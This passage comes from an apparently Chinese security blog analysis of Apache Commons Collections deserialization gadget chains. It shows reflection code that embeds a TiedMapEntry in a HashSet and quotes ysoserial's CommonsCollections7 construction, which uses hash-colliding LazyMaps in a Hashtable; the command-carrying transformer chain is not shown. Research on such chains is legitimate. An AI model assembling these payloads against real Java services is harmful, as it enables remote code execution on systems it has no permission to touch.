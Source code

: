 ```
Field keyField = null;
try`{`
  keyField = node.getClass().getDeclaredField("key");// 获取Node的key field
`}`catch(Exception e)`{`
  keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
`}`
Permit.setAccessible(keyField);// 设置该Field可被访问修改
keyField.set(node, entry);// 对node实例填充key的值为TiedMapEntry实例
```

经过上面的操作，最终的HashSet实例被我们嵌入了构造好的TiedMapEntry实例。

这里在调试的过程中，发现用ysoserail的Reflections来简化exp，出来的结果有点不一样，还没有找到具体的原因。如果有师傅遇到过这种问题，欢迎一起讨论讨论！

<a class="reference-link" name="CommonsCollections7"></a>**CommonsCollections7**

CommonsCollections利用的是key的hash冲突的方法来触发`equals`函数，该函数会调用`LazyMap.get`函数

那么构造exp的关键就是构造一个hash冲突的LazyMap了。

这里大家可以跟一下String.hashCode函数，他的计算方法存在不同字符串相同hash的可能性，例如如下代码

[![](https://p3.ssl.qhimg.com/t0178a9ea5c6346ed24.png)](https://p3.ssl.qhimg.com/t0178a9ea5c6346ed24.png)

CommonsCollections7用的就是这个bug来制造hash冲突。

这里需要提一点的是触发LazyMap.get函数

[![](https://p0.ssl.qhimg.com/t016651d6f6baa1b908.png)](https://p0.ssl.qhimg.com/t016651d6f6baa1b908.png)

要走到第151行红框框上，首先需要满足的是`map`里不存在当前这个`key`

但是明显在第一次不存在这个`key`后，会更新`map`的键值，这将导致下次同样的`key`进来，就不会触发后续的payload了。我们在写exp的时候需要注意到这一点。

来看一下ysoserial的CommonsCollections7是怎么编写的！

```
Map innerMap1 = new HashMap();
Map innerMap2 = new HashMap();

// Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
lazyMap1.put("yy", 1);

Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zZ", 1);

// Use the colliding Maps as keys in Hashtable
Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap1, 1);
hashtable.put(lazyMap2, 2);

Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
// Needed to ensure hash collision after previous manipulations
lazyMap2.remove("yy");
```
